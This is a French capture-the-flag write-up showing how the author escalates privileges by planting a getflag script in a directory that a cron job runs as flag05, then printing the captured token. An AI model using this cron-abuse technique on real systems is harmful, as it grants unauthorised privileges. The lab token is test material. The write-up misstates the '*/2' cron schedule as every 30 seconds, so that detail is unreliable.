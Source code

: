 # Level05

À la connexion au niveau nous reçevons une notification :

<pre>You have new mail.</pre>

On consulte donc nos mails :

<pre>$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05</pre>

Le mail contient une tâche cron qui va exécuter <code>/usr/sbin/openarenaserver</code> toutes les 30 secondes avec les droits de flag05.

<pre>$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done</pre>

Ce script exécute tous les scripts contenus dans le dossier <code>/opt/openarenaserver/</code> puis les supprime.

On place donc un script qui exécute la commande getflag dans ce dossier :

<pre>$ echo "getflag > /tmp/token" > /tmp/getflag.sh
$ mv /tmp/getflag.sh /opt/openarenaserver/getflag.sh
$ ls /opt/openarenaserver/
getflag.sh</pre>

On attends que le fichier disparaisse pour récupérer notre résultat :

<pre>$ cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc</pre>
